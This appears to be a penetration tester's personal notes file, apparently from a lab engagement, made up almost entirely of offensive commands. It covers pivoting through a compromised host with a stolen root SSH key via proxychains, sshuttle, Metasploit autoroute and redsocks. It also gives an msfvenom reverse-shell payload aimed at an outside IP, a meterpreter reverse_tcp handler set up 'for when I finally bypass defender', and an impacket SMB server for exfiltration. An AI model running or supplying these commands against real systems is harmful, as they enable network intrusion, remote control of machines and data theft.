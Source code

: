 #### Pivoting

### method 1:

Add to proxychains.conf:
`socks4 127.0.0.1 1080`  
`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01`  
`proxychains nmap -sV 172.16.1.0-254`  

### Method 2:
*if I could nmap through this tunnel it would be the preffered method  

`sshuttle -vr root@NIX01 172.16.1.1/24 --ssh-cmd "ssh -i 10.10.110.123/root_ssh"`  

### Method 3:  
msf > use auxiliary/scanner/ssh/ssh_login_pubkey  
msf auxiliary(ssh_login_pubkey) > set RHOSTS 10.10.110.123    
msf auxiliary(ssh_login_pubkey) > set USERNAME root  
msf auxiliary(ssh_login_pubkey) > set KEY_PATH 10.10.110.123/root_ssh  
msf auxiliary(ssh_login_pubkey) > run  
ctrl+z
sessions -u 2
background
use auxiliary/server/socks_proxy
run


meterpreter > run post/multi/manage/autoroute  
CTRL+Z  
use auxiliary/scanner/portscan/tcp   
set RHOSTS 172.16.1.0/24  

hhmmmmMMMM I must be doing something wrong I can curl some ip's I know are on the other side but cannot nmap or scan the range...   
dd

### Method 4:  

`ssh -D 1080 -i 10.10.110.123/root_ssh root@NIX01` *1080 is redsocks proxy default*  
`echo 1 > /proc/sys/net/ipv4/ip_forward`  
`iptables -t nat -A OUTPUT -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`iptables -t nat -A PREROUTING -p tcp -d 172.16.1.0/24 -j REDIRECT --to-ports 12345`  
`/usr/sbin/redsocks -c /etc/redsocks.conf `

# Get a proper shell from a half/broken shell
`msfvenom -p cmd/unix/reverse_python lhost=69.201.13.55 lport=3344 R`
paste in your shell, profit

## Start mult/handler for when I finally bypass defender:
`sudo msfconsole -x "use exploits/multi/handler; set lhost 10.10.14.14; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"`

## Start SMB for infil/exfil:  
`$ sudo impacket-smbserver GUEST /home/kymb0/Desktop/backup/offshore/toolz`
